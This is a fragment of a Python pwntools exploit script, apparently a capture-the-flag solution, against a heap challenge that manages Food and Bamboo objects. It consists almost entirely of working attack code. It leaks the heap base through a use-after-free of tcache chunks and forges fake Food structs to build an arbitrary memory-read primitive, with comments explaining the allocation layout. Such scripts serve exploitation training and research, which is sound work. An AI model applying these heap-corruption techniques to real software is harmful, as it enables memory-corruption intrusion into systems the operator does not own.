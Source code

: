 ```python
    assert len(name) < 0x1000
    choose(0)
    sendidx(idx)
    r.sendline(name) # io speed: r.sendlineafter('name: \n', name)
def fav(idx: int):
    choose(1)
    sendidx(idx)
def printName() -> bytes:
    choose(2)
    flush()
    r.recvuntil('name: ')
    return r.recvline(timeout=1)[:-1]
def Eat(): choose(3)

def checkWhich(idx: int) -> str:
    '''figure out if foods[idx] was a Bamboo or a Food.
    Destroys the current `favorite`.'''
    fav(idx)
    Eat()
    flush()
    res = r.recvline()
    if b'crunch' in res: return 'bamboo'
    if b'nom nom' in res: return 'food'
    raise RuntimeError('wrong food')

# step 1: leak heap using a UAF
alloc(0, b'a'*0x97) # larger allocation to allow for larger leak
alloc(1, b'a'*0x7)  # needed for PIE leak later
fav(0)
alloc(0, b'A'*0x27) # Freeing foods[0] causes favorite->name_ to point to the tcache @ heap+0x10 (since favorite->name_ == [favorite+0x8] == (malloc_chunk*)favorite->bk)
heapbase = unpack(printName()[72:80])&0xfffffffff000 # tcache[72:80] == tcache[size=0x30]. & to get base.
log.info('heap: '+hex(heapbase))

'''on a brand new allocation,
    - malloc 40 (Food/Bamboo)
    - if foods[idx] doesn't exist, malloc 48 (map element)
    - if name.size() > 0xf, malloc space for string (31, 61, 121, ...).
    - if food type is Bamboo, allocate name.size() space for a copy of the string.
    - if foods[idx] exists, free the backing store for foods[idx]->name_ (if foods[idx]->name_.size() was > 0xf), and then free foods[idx] itself.'''
def fakeFood(payload: bytes) -> int:
    '''creates a fake Food struct containing `payload` at a random `idx`, stored as favorite. returns idx'''
    idx = randint(100,1<<30) # negligible chance of overlap
    alloc(idx, b'b'*60) # alloc 40, 48, 61, and potentially alloc&&free 61.
    fav(idx)
    alloc(idx, b'b'*60) # alloc 40&61, free previous 61&40.
    # the Food struct for `favorite` is at the top of tcache[size=0x30] at this point.
    for i in range(10): # There's a 1/2 that `favorite` is overwritten with the payload for every loop here. (1/2)**10 is a small enough error rate.
        # The other 1/2 chance puts `favorite` back on the top of tcache, so just repeat to increase odds.
        alloc(idx+i+1, payload[:0x17].ljust(0x17, b'\0')) # Note that len(payload) must not be within [0x18, 0x28) to prevent an additional 0x30 chunk allocation.
        # len(payload) > 0x1f is also forbidden because it would cause the malloc(31) string buffer to be freed. This resolves to len(payload) < 0x17.
    return idx
def leak(addr: int, sz: int=8): # leak the first `sz` bytes from `addr`
    fakeFood(fit({8:addr,0x10:sz+8}))
    return unpack(printName()[:sz],'all')

```
